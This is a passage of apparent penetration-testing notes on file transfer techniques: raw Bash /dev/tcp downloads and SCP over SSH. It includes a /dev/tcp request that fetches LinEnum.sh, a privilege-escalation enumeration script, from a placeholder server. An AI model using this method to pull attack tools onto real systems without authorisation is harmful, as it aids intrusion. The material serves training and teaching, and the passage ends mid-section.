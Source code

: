 #### HTTP GET Request
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\\n">&3
```

#### Print the Response
```bash
cat <&3
```

**Explanation:**

- `exec 3<> /dev/tcp/<server>/<port>`: Opens a connection to the specified server and port.
- `echo`: Sends an HTTP GET request to the server.
- `cat <&3 > downloaded_file`: Reads the response from the server and saves it as a file.
- `exec 3>&-`: Closes the file descriptor.

#### Limitations

1. No support for HTTPS (without additional tools).
2. Requires understanding of raw protocols (e.g., crafting HTTP requests manually).
3. May not work if `--enable-net-redirections` is not enabled in Bash.

#### Use Cases

- Minimalist environments where file transfer tools are not available.
- Quick and simple file transfer on systems with limited resources.

This method provides a lightweight and powerful alternative when traditional file transfer utilities are unavailable.

## SSH Downloads
SSH or (Secure Shell) is a protocol that allows secure access to remote coputers. SSH implementation comes with an `scp` utility for remtoe file transfer that, by default, uses the SSH protocol.
`SCP` secure copy is a command -line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.
`SCP` is very similar to `copy` or `cp` but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.
#### Setting up the SSH server
```bash
sudo systemctl enable ssh
```
#### Starting the SSH Server
```bash
sudo systemctl start ssh
```
#### Checking for SSH Listening Port
```bash
netstat -lnpt

$ netstat -lnpt

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      - 
```
Now we can begin transferring files. We need to specify the following. 
- IP
- Username
- Password
#### Linux Downloaing File Using SCP